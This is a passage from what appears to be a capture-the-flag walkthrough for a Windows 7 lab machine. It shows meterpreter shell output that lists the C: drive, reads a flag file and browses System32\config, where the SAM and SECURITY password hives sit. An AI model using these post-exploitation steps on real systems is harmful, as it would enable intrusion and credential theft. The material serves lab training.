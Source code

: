 ```bash
C:\Windows\system32>dir c:\
dir c:\
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of c:\

03/17/2019  02:27 PM                24 flag1.txt
07/13/2009  10:20 PM    <DIR>          PerfLogs
04/12/2011  03:28 AM    <DIR>          Program Files
03/17/2019  05:28 PM    <DIR>          Program Files (x86)
12/12/2018  10:13 PM    <DIR>          Users
03/17/2019  05:36 PM    <DIR>          Windows
               1 File(s)             24 bytes
               5 Dir(s)  21,032,435,712 bytes free

C:\Windows\system32>type c:\flag1.txt    
type c:\flag1.txt
flag{********************}
C:\Windows\system32>
```

### Flag2? _This flag can be found at the location where passwords are stored within Windows._
*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

```bash
meterpreter > shell
Process 2900 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd config
cd config

C:\Windows\System32\config>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Windows\System32\config

04/30/2023  09:43 PM    <DIR>          .
04/30/2023  09:43 PM    <DIR>          ..
12/12/2018  06:00 PM            28,672 BCD-Template
03/17/2019  05:39 PM        18,087,936 COMPONENTS
03/17/2019  05:39 PM           262,144 DEFAULT
03/17/2019  02:32 PM                34 flag2.txt
07/13/2009  09:34 PM    <DIR>          Journal
03/17/2019  02:56 PM    <DIR>          RegBack
03/17/2019  03:05 PM           262,144 SAM
03/17/2019  05:39 PM           262,144 SECURITY
03/17/2019  05:39 PM        39,583,744 SOFTWARE
04/30/2023  09:44 PM        12,582,912 SYSTEM
11/20/2010  09:41 PM    <DIR>          systemprofile
12/12/2018  06:03 PM    <DIR>          TxR
               8 File(s)     71,069,730 bytes
               6 Dir(s)  21,103,149,056 bytes free

C:\Windows\System32\config>type flag2.txt
```